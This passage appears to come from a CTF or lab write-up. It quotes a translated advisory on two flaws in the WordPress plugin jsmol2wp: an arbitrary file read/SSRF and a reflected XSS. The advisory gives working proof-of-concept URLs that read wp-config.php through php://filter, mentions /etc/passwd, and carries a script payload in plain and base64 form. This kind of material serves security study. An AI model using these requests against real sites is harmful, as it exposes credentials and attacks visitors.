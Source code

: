 If we search for an exploit related to this plugin, we find `CVE-2018-20462`, let's take a look:


```
ChatGPT translation of the page that doesn't render in archive.org:
 https://web.archive.org/web/20190915000000*/https://www.cbiu.cc/2018/12/WordPress%E6%8F%92%E4%BB%B6jsmol2wp%E6%BC%8F%E6%B4%9E/

Version: 1.07
Link: https://wordpress.org/plugins/jsmol2wp/
A simple arbitrary file read and XSS vulnerability

Arbitrary file read & SSRF(CVE-2018-20463)
/wp-content/plugins/jsmol2wp/php/jsmol.php 137th line

The parameter $query of file_get_contents is directly controllable, so php://filter is used to read it. Of course, you can also use file:///etc/passwd to read the absolute path.

POC:

http://localhost/wp-content/plugins/jsmol2wp/php/jsmol.php
?isform=true
&call=getRawDataFromDatabase
&query=php://filter/resource=../../../../wp-config.php

As you can see, this is also a simple SSRF.

Reflected XSS (CVE-2018-20462)
/wp-content/plugins/jsmol2wp/php/jsmol.php 157th line

Interestingly, the payload here can be encoded in BASE64, so it can bypass browser filtering.

POC:

http://localhost/wp-content/plugins/jsmol2wp/php/jsmol.php
?isform=true
&call=saveFile
&data=<script>alert(/xss/)</script>
&mimetype=text/html; charset=utf-8

Using Base64:

http://localhost/wp-content/plugins/jsmol2wp/php/jsmol.php
?isform=true
&call=saveFile
&data=PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=
&mimetype=text/html; charset=utf-8
&encoding=base64

The report describes two vulnerabilities in a WordPress plugin called "jsmol2wp". The first vulnerability is an arbitrary file read and server-side request forgery (SSRF) vulnerability (CVE-2018-20463) which can be exploited by controlling the $query parameter of file_get_contents in the jsmol.php file. The second vulnerability is a reflected cross-site scripting (XSS) vulnerability (CVE-2018-20462) which can be exploited by encoding the payload in BASE64. The report provides proof-of-concept (POC) examples for each vulnerability.
```
